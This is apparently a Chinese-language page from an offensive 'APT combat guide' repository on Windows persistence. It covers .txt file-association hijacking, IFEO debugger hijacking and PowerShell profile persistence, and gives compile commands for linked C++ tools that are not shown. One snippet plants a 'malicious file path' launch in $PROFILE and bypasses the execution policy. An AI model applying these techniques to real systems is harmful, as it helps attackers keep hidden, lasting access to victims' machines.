 ### 默认文件扩展名劫持

[txt.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/txt.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 txt.cpp -o txt.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions
```

```Bash
reg query "HKCR\txtfile\shell\open\command" /s
reg add "HKEY_CLASSES_ROOT\txtfile\shell\open\command" /ve /t REG_EXPAND_SZ /d "%SystemRoot%\system32\NOTEPAD.EXE %1"
```

### IFEO

[ifeo.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/ifeo.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 ifeo.cpp -o ifeo.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

[ifeo_debug.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/ifeo_debug.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 ifeo_debug.cpp -o ifeo_debug.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

```Bash
Remove-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe" -Name 'Debugger'
```

### PowerShell配置文件

```powershell
echo $PROFILE
Test-Path -Path $PROFILE
New-Item -Path $PROFILE -ItemType File -Force
Add-Content -Path $PROFILE -Value 'Start-Process "恶意文件路径"'
powershell -executionpolicy bypass
$PROFILE | select *
```

[config_powershell.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/config_powershell.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 config_powershell.cpp -o config_powershell.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```
